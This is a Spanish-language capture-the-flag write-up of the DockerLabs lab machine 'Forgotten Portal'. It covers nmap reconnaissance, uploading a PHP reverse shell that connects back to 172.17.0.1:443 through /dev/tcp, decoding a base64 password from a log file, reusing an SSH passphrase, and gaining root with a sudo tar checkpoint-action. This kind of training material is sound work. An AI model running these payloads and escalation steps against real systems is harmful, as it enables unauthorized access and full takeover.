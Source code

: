 #MAQUINA #DOCKERLABS #MEDIO 
#ABUSO_SUBIDA_ARCHIVOS 
<hr>

# RECONOCIMIENTO

Vamos a resolver **Forgotten Portal** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS -vvv -p- --min-rate 5000 -n -Pn 172.17.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-18 16:04 CET
Initiating ARP Ping Scan at 16:04
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 16:04, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 16:04
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 16:04, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-03-18 16:04:42 CET for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.75 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)



```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-18 16:04 CET
Nmap scan report for rubikcube.dl (172.17.0.2)
Host is up (0.000017s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1d:4a:16:27:ad:b8:0b:aa:28:64:b0:10:3b:be:79:1c (ECDSA)
|_  256 0b:0f:11:d6:5a:e9:f5:25:c8:17:0d:71:c1:29:c9:53 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: CyberLand Labs - Innovaci\xC3\xB3n en Ciberseguridad
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.46 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-18 16:05 CET
Nmap scan report for rubikcube.dl (172.17.0.2)
Host is up (0.0000040s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.58 (ubuntu)'
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds
                                                            


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:** Tenemos un directorio **uploads**.

## HTTP (80)

Al hacer CTRL + U :
```bash
        <!-- Nota: Bob ha implementado una nueva funcionalidad en m4ch1n3_upload.html. Ahora permite analizar metadatos de los archivos subidos.
         Esto mejora la capacidad de gestionar información crítica y detectar posibles anomalías en los datos. -->
```
# EXPLOTACION

Subimos una reverse shell y nos ponemos en escucha por el puerto 443 :

```bash
<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>
```

YA ESTAMOS COMO WWW-DATA.

# ESCALADA PRIVILEGIOS

Tras un rato, no veo nada interesante. Pero en el `/var/www/html` vemos un acess_log :

```bash
www-data@76aacb8b6099:/var/www/html$ cat access_log 
# --- Access Log ---
# Fecha: 2023-11-22
# Descripción: Registro de actividad inusual detectada en el sistema.
# Este archivo contiene eventos recientes capturados por el servidor web.

[2023-11-21 18:42:01] INFO: Usuario 'www-data' accedió a /var/www/html/.
[2023-11-21 18:43:45] WARNING: Intento de acceso no autorizado detectado en /var/www/html/admin/.
[2023-11-21 19:01:12] INFO: Script 'backup.sh' ejecutado por el sistema.
[2023-11-21 19:15:34] ERROR: No se pudo cargar el archivo config.php. Verifique las configuraciones.

# --- Logs del sistema ---
[2023-11-21 19:20:00] INFO: Sincronización completada con el servidor principal.
[2023-11-21 19:35:10] INFO: Archivo temporal creado: /tmp/tmp1234.
[2023-11-21 19:36:22] INFO: Clave codificada generada: YWxpY2U6czNjcjN0cEBzc3cwcmReNDg3
[2023-11-21 19:50:00] INFO: Actividad normal en el servidor. No se detectaron anomalías.
[2023-11-22 06:12:45] WARNING: Acceso sospechoso detectado desde IP 192.168.1.100.

# --- Fin del Log ---
www-data@76aacb8b6099:/var/www/html$ echo "YWxpY2U6czNjcjN0cEBzc3cwcmReNDg3" | base64 -d
alice:s3cr3tp@ssw0rd^487
```

YA ESTAMOS COMO ALICE.

Vemos en `/home/alice/incidentes,` un reporte , que nos dice que todos los usuarios tienen la misma clave ssh y que la passphrase de bob es  :

```bash
cyb3r_s3curity
```

YA ESTAMOS COMO BOB.

Vamos a ver si tenemos permisos SUDO:

```bash
bob@76aacb8b6099:~$ sudo -l
Matching Defaults entries for bob on 76aacb8b6099:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bob may run the following commands on 76aacb8b6099:
    (ALL) NOPASSWD: /bin/tar

```

Vemos tar con permisos SUDO :
```bash
bob@76aacb8b6099:~$ 

    sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

tar: Removing leading `/' from member names
# whoami
root
# 

```

**YA ESTAMOS COMO ROOT.**

